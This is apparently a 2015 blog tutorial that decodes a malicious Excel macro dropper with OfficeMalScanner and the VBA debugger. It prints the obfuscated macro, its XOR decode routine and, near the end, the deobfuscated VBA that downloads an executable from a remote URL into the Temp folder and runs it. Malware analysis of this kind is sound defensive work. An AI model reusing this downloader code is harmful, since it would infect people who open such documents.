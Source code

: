 ```yaml
---
title: 'Office document malware - office_vb_dropper decoding. Sample B'
date: 2015-02-26T19:32:00.001Z
draft: false
aliases: [ "/2015/02/office-document-malware-officevbdropper_26.html" ]
parent: Blogger
---
```

#### date: 2015-02-26

Lenny Zeltzers cheat sheet will tell you how to extract the macros, however it does not tell you what to do with the macros, or at least point you in the right direction to reveal the code in a more human readable way.  

### Procedure

In this example we have the old format .xls

  

We can jump straight to using OfficeMalScanner from [www.reconstructer.org](http://www.reconstructer.org/).

  

I tend to create a working folder to drop malware into and extract artifacts etc.

Open up powershell prompt and

  

cd "C:\\Users\\youraccount\\Desktop\\Malware Analysis\\19-02-15"

  

I tend to put programs that don’t require installation under c:\\bin\\

  

C:\\bin\\OfficeMalScanner\\OfficeMalScanner.exe .\\1404245.xls info

  

Now in your working folder we should have the extracted contents in a folder called, 1404245.XLS-Macros.

  

We have a lot of files, so we need to join them up so it’s easier to debug what’s going on here.

  

cd .\\1404245.XLS-Macros

  

This simple powershell command will join up the files, however the file beginning with \_\_ will be at the end and this has the first routine called.

  

Get-Content \* | Set-Content combined.txt

  

[![](http://4.bp.blogspot.com/-R0QDnZBTKVg/VO90UGMghpI/AAAAAAAAI9I/3h8rno5wylI/s1600/1.png)](http://4.bp.blogspot.com/-R0QDnZBTKVg/VO90UGMghpI/AAAAAAAAI9I/3h8rno5wylI/s1600/1.png)

  

  

It looks like the \_\_SRP\_33 is the project file for the macro inside the doc, and as such contains the first function it should execute on document load.

  

By combining all these files it should be easier to search for the function that is called.

Sub Workbook\_Open()

AM6Ak5ZWT

End Sub

  

Upon finding this function we see that it is much larger than any of the other modules, this must performing quite a few actions.

  

Sub AM6Ak5ZWT()

Dim YZXRv0LAG, gmkGo6q

GoTo JuovZmlBFIzZohQyAV

Dim QbvJwjJgf As Integer

For QbvJwjJgf = 0 To 0

If QbvJwjJgf = 5 Then End

Next QbvJwjJgf

Dim ZbSsUz As Integer

For ZbSsUz = 0 To 0

If ZbSsUz = 5 Then End

Next ZbSsUz

Dim DAQtRY As Integer

For DAQtRY = 0 To 0

If DAQtRY = 5 Then End

Next DAQtRY

JuovZmlBFIzZohQyAV:

Set YZXRv0LAG = CreateObject(fsOY4M0AW(ekCJo8Ot))

GoTo ExhORmOShdMazzbj

Dim rQuMmMYRkTqa As Integer…….

…..more code was here for 10 pages

….excluded for briefness…..

  

As we can see where I’ve highlighted the code, we first have a jump over some possible junk logic/code and then we have a variable defined that uses CreateObject with one parameter that itself has a parameter. So I search for the first parameter and find it leads to a function.

  

Public Function fsOY4M0AW(sData As String) As String

  

Dim bData() As Byte

Dim i As Integer

If Len(sData) <> 0 Then

ReDim bData(Len(sData))

bData = StrConv(sData, vbFromUnicode)

For i = 0 To Len(sData) - 1

bData(i) = bData(i) Xor 255

Next i

 fsOY4M0AW = StrConv(bData, vbUnicode)

End If

End Function

  

The other thing to note is that the embedded parameter leads to some strings

  

Private Const WOlM3al = "£¹™›˜¹Ñš‡š"

Private Const Jfp1OUtrS = "¬—š““Ñ¾“–œž‹–‘"

Private Const FsToknf = "¾»°»½Ñ¬‹šž’"

Private Const bPO7ajuP = "¬œ–‹–‘˜Ñ¹–“š¬†Œ‹š’°•šœ‹"

Private Const bPrcZrXY = "¸º«"

Private Const eBSZrP = "²¬§²³ÍÑ§²³·««¯"

Private Const UHVpAD6O = WOlM3al

Private Const lLJ = "—‹‹ÅÐÐ—Š’’š“ÒÍÆÑ›šÐ•ŒÐ–‘Ñš‡š"

Private Const ekCJo8Ot = bPO7ajuP

  

  

So we can use the code to reveal itself if we break it’s flow. Open word and create a new macro module. Copy in the strings and the decode function, create a new sub to create a string, then assign it a value by calling the function passing any of the private const strings, add a watch to this value. Then add a msgbox to pop this value with a break point on it.

Run this routine copying out the watch value and slowly begin to comment up what the private const strings mean.

  

You should end up with something similar in the following image.

[![](http://1.bp.blogspot.com/-Mtgq--XW71M/VO90UIGMbvI/AAAAAAAAI9E/3gXIHfxnLtM/s1600/2.png)](http://1.bp.blogspot.com/-Mtgq--XW71M/VO90UIGMbvI/AAAAAAAAI9E/3gXIHfxnLtM/s1600/2.png)

  

  

The next step is to start replacing the string with decoded values to bring new context.

After some time I end up with the following code, I removed the repeating  code between the goto X and X: with X being a random name.

  

Sub AM6Ak5ZWT()

Dim fileSysObj, gmkGo6q

  

Set fileSysObj = CreateObject("Scripting.FileSystemObject") ' <<

  

Dim fsoSpecialFolder, j\_YLrCc1S, fz21trwt

Const int2 = 2

  

Set fsoSpecialFolder = fileSysObj.GetSpecialFolder(int2) ' <<

  

strUrl = "http://hummel-29.de.localhost/js/bin.exe"

  

DownloadToFile = fsoSpecialFolder & "\\FfdgF.exe" ' << "C:\\Users\\username\\AppData\\Local\\Temp"

  

Set xmlHttpObj = CreateObject("MSXML2.XMLHTTP")  ' <<

xmlHttpObj.Open "GET", strUrl, False

xmlHttpObj.send

Set SFileSysObj = CreateObject("Scripting.FileSystemObject")  ' <<

  

If SFileSysObj.FileExists(DownloadToFile) Then  ' <<

  

SFileSysObj.DeleteFile (DownloadToFile) ' <<

  

End If

  

Dim streamADODB

  

Set streamADODB = CreateObject("ADODB.Stream")  ' <<

  

With streamADODB

  

.Type = 1

  

.Open

  

.Write xmlHttpObj.responseBody

.SaveToFile DownloadToFile

  

.Close

  

End With

  

Set streamADODB = Nothing

  

If SFileSysObj.FileExists(DownloadToFile) Then

  

End If

  

Set callToExecute = CreateObject("Shell.Application") ' << function call

  

callToExecute.Open fsoSpecialFolder & "\\FfdgF.exe" ' << function call

  

End Sub

  

  

I appended localhost to the droppers domain to ensure I won’t become infected and now the code can be stepped through.